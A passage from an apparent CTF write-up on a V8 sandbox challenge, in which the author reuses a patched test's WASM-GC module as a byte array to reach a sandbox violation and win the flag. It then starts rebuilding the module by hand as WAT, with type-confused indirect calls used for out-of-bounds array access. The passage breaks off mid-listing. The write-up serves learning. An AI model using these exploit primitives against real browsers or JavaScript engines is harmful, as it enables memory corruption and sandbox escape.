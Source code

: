 if we go to the testing.cc file that was patched we will see right under the patch added code we will see that same V8 sandbox violation text. I knew I wouldn't be able to use the wasm module builder outside of a local instance so I looked through the code and saw it had a toBuffer function. I printed out the WASM code, then copied and pasted it into an array in a modified script. I ran it again and it still worked so I created a python script to send the JavaScript code to the server and was greated with the same text plus the flag. 

## After the CTF

I decided that I should learn what the test script actually created for the WASM binary. I tried using a toolchain called WABT, to convert the given array to a Web Assembly Text(wat) file. Here was my script to turn that array into a wasm file 

```python
wasm_code = bytearray([0,97,115,109,1,0,0,0,1,40,6,80,0,94,120,1,80,0,96,1,126,1,127,80,0,96,1,126,1,126,96,1,127,1,100,0,96,2,100,0,126,1,127,96,3,100,0,126,127,0,3,6,5,1,2,3,4,5,4,10,1,64,0,112,1,1,1,210,1,11,7,57,5,6,102,110,95,105,95,108,0,0,6,102,110,95,108,95,108,0,1,11,97,108,108,111,99,95,117,56,97,114,114,0,2,9,117,56,97,114,114,95,103,101,116,0,3,9,117,56,97,114,114,95,115,101,116,0,4,10,51,5,4,0,65,0,11,4,0,32,0,11,7,0,32,0,251,7,0,11,14,0,32,0,32,1,65,0,17,1,0,251,13,0,11,16,0,32,0,32,1,65,0,17,1,0,32,2,251,14,0,11,0,59,4,110,97,109,101,1,52,5,0,6,102,110,95,105,95,108,1,6,102,110,95,108,95,108,2,11,97,108,108,111,99,95,117,56,97,114,114,3,9,117,56,97,114,114,95,103,101,116,4,9,117,56,97,114,114,95,115,101,116])

with open("test_wasm.wasm", "wb") as f:
    f.write(wasm_code)
```
When I tried converting the wasm file to a wat file I kept getting an error. Turns out a WASM binary cannot have an array or an 8 bit integer, only WASM GC(garbage collector) can. It is a newer specification for WASM to add garbage collection plus a few nice features like arrays, structs, and 9 bit integers. The specification plus compiler can be cloned and compiled from here [https://github.com/WebAssembly/gc](https://github.com/WebAssembly/gc). You can convert WASM to wat but it doesn't really give you meaningful names so I decided to recreate the wasm code by hand. That comes to look like this 
```
(module
  ;; types
  (type $u8arr (sub (array (mut i8))))
  (type $sig_i_l (sub (func (param i64) (result i32))))
  (type $sig_l_l (sub (func (param i64) (result i64)))) 
  (type $sig_u8arr_i (func (param i32) (result (ref $u8arr))))
  (type $sig_i_u8arrl (func (param (ref $u8arr)) (param i64) (result i32)))
  (type $sig_v_u8arrli (func (param (ref $u8arr)) (param i64) (param i32)))

  ;; create table
  (table 1 1 funcref (ref.func $fn_l_l))

  ;; int functions
  (func $fn_i_l (type $sig_i_l)
    i32.const 0
  )
  
  (func $fn_l_l (type $sig_l_l)
    local.get 0
  )

  ;; array functions
  (func $alloc_u8arr (type $sig_u8arr_i)
    local.get 0
    array.new_default $u8arr
  )

  (func $u8arr_get (type $sig_i_u8arrl)
    local.get 0
    local.get 1
```